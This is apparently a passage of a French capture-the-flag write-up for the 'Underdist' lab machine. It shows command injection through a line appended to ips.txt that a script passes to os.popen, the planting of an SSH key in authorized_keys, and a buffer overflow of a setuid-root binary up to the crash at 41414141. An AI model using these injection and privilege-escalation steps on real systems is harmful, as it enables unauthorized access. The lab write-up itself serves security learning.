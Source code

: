 On n'a aucune indication que le script soit lancé par une crontab mais on voit qu'il est possible d'injecter une commande sur le `os.popen()` si on ajoute une ligne à la fin du fichier `ips.txt`.

J'ajoute cette ligne :

```bash
;touch /tmp/hellothere
```

Et une minute plus tard mon fichier est créé avec les droits de l'utilisateur `underdist` :

```
-rw-r--r--  1 underdist underdist    0 dic 31 11:47 hellothere
```

Je modifie ma commande afin quelle rajoute ma clé publique dans le `authorized_keys` de `underdist`.

## A l'ancienne

Une fois connecté, dans le dossier personnel de l'utilisateur je trouve un dossier caché `.bin` avec un binaire setuid root à l'intérieur :

```
./.bin:
total 16
drwx------ 2 underdist underdist 4096 oct 27  2014 .
drwxr-xr-x 4 underdist underdist 4096 oct 27  2014 ..
-rwsr-xr-x 1 root      root      4986 oct 27  2014 echo
```

Ce binaire semble vraiment basique :

```bash
underdist@Underdist:~$ strings .bin/echo 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
strcpy
puts
__libc_start_main
GLIBC_2.0
PTRh
QVhL
[^_]
;*2$"
Tiene correo nuevo en /var/mail/underdist
underdist@Underdist:~$ cat /proc/sys/kernel/randomize_va_space 
0
```

L'ASLR est aussi désactivé. Reste à voir si il y a des canari pour protéger la stack :

```bash
underdist@Underdist:~$ .bin/echo `python -c 'print "A"*400'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Violación de segmento
underdist@Underdist:~$ dmesg | tail -1
[ 5182.001067] echo[5276]: segfault at 41414141 ip 41414141 sp bffff620 error 4
```
